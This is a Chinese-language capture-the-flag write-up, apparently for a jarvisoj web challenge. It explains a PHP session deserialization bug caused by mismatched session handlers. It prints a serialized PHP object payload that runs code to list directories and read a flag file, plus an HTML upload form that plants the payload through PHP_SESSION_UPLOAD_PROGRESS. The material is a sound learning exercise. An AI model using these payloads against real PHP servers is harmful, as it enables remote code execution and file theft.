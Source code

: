 在php.ini中设置的是session处理器是`php_serialize`，然后在这道题中设置的session处理器又是`php`，这里的处理器差异导致反序列化漏洞。

[HP Session 序列化及反序列化处理器设置使用不当带来的安全隐患](https://github.com/80vul/phpcodz/blob/master/research/pch-013.md)

[深入浅析PHP的session反序列化漏洞问题](https://www.jb51.net/article/116246.htm)

我们先构造payload

```php
<?php

class OowoO
{
    public $mdzz = "var_dump(file_get_contents('/opt/lampp/htdocs/Here_1s_7he_fl4g_buT_You_Cannot_see.php'));";
}

$m = new OowoO();
echo serialize($m);
//|O:5:\"OowoO\":1:{s:4:\"mdzz\";s:36:\"print_r(scandir(dirname(__FILE__)));\";}
//|O:5:\"OowoO\":1:{s:4:\"mdzz\";s:89:\"var_dump(file_get_contents('/opt/lampp/htdocs/Here_1s_7he_fl4g_buT_You_Cannot_see.php'));\";}
?>
```

然后我们构造的payload该如何进入session中，使其能够被`session处理器 php`处理。

![](/home/cookie/Pictures/blogs/12.png)

session.upload_progress.enable是开启的。**意味着当一个上传在处理中，同时POST一个与INI中设置的session.upload_progress.name同名变量时，当PHP检测到这种POST请求时，它会在$_SESSION中添加一组数据。**



我觉得这个trick，我是想不到，因为对php.ini的配置还不是很熟.....

```
<!DOCTYPE html>
<html>
<head>
	<title>test XXE</title>
	<meta charset="utf-8">
</head>
<body>
	<form action="http://web.jarvisoj.com:32784/index.php" method="POST" enctype="multipart/form-data">
	    <input type="hidden" name="PHP_SESSION_UPLOAD_PROGRESS" value="123" />
	    <input type="file" name="file" />
	    <input type="submit" value="go" />
	</form>
</body>
</html>

```

我们POST一个表单，表单名为`PHP_SESSION_UPLOAD_PROGRESS`，然后我们就能将我们的payload带入`SESSION`
